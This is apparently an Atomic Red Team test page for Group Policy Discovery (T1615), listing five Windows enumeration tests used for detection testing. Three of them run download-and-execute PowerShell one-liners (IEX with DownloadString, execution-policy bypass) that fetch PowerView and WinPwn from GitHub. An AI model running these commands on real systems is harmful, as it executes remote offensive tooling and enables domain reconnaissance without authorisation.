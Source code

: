```yaml
---
tags: [T1615, atomic_test]
filename: "[[T1615 - Group Policy Discovery]]"
---
```

# T1615 - Group Policy Discovery

## Atomic Test #1 - Display group policy information via gpresult
Uses the built-in Windows utility gpresult to display the Resultant Set of Policy (RSoP) information for a remote user and computer
The /z parameter displays all available information about Group Policy. More parameters can be found in the linked Microsoft documentation
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/gpresult
https://unit42.paloaltonetworks.com/emissary-trojan-changelog-did-operation-lotus-blossom-cause-it-to-evolve/
Turla has used the /z and /v parameters: https://www.welivesecurity.com/wp-content/uploads/2020/05/ESET_Turla_ComRAT.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** 0976990f-53b1-4d3f-a185-6df5be429d3b






#### Attack Commands: Run with `command_prompt`! 


```cmd
gpresult /z
```






<br/>
<br/>

## Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView
Use PowerView to Get-DomainGPO This will only work on Windows 10 Enterprise and A DC Windows 2019.

**Supported Platforms:** Windows


**auto_generated_guid:** 4e524c4e-0e02-49aa-8df5-93f3f7959b9f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/86921fbbf4945441e2f9d9e7712c5a6e96eed0f3/empire/server/data/module_source/situational_awareness/network/powerview.ps1'); Get-DomainGPO"
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - GPOAudit
Check domain Group policies for common misconfigurations using Grouper2 via GPOAudit function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** bc25c04b-841e-4965-855f-d1f645d7ab73






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPOAudit -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - GPORemoteAccessPolicy
Enumerate remote access policies through group policy using GPORemoteAccessPolicy function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7230d01a-0a72-4bd5-9d7f-c6d472bc6a59






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
GPORemoteAccessPolicy -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #5 - MSFT Get-GPO Cmdlet
The Get-GPO cmdlet gets one Group Policy Object (GPO) or all the GPOs in a domain. Tested on Windows Server 2019 as a domain user with computer joined to domain. Reference: https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gpo?view=windowsserver2022-ps

**Supported Platforms:** Windows


**auto_generated_guid:** 52778a8f-a10b-41a4-9eae-52ddb74072bf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| gpo_output | The output of the Get-GPO cmdlet | string | $env:temp&#92;GPO_Output.txt|
| gpo_param | You can specify a GPO by its display name or by its globally unique identifier (GUID) to get a single GPO, or you can get all the GPOs in the domain through the All parameter | string | -All|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Get-GPO -Domain $ENV:userdnsdomain #{gpo_param} >> #{gpo_output}
```

#### Cleanup Commands:
```powershell
del $env:temp\GPO_Output.txt -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Add Rsat.ActiveDirectory.DS
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```
##### Description: Add Rsat.GroupPolicy.Management.Tools ###Two RSAT Modules needed for this to work on Win10, WinServer 2019 works by default. This will take a long time (almost 2 minutes) to install RSAT Manually###.
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0
```




<br/>
